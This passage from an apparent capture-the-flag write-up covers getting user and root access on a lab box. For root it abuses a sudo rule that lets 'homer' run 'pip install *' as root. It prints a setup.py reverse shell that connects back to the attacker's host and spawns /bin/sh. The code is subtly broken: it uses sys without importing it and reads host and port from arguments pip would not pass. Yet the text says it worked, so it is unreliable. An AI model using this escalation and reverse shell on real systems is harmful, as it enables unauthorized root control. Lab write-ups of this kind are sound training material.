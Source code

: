 The first password is the SSH password for the user "homer". When logging in via SSH on Port 65535, I could finally read the user.txt file containing the flag. The second password is a couchdb user that has access to the `passwords` table. No clue about the third password.

## root

This was very straightforward. The user `homer` can run `pip install *` as root: 

```bash
homer@canape:~$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:                                            
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bi
n

User homer may run the following commands on canape:                                      
    (root) /usr/bin/pip install *
```

When running `pip install` on a certain directory that contains a `setup.py` file, this file gets executed.

I therefore created the following `setup.py` file in some directory on the box to get a reverse shell as root:

```python
import socket
import subprocess
import os

host = sys.argv[1]
port = sys.argv[2]
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host, port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

When executing the exploit (with netcat listening on my machine) pip complained, but executed the commands inside `setup.py` and I could read the flag from the `/root` directory through the reverse shell.
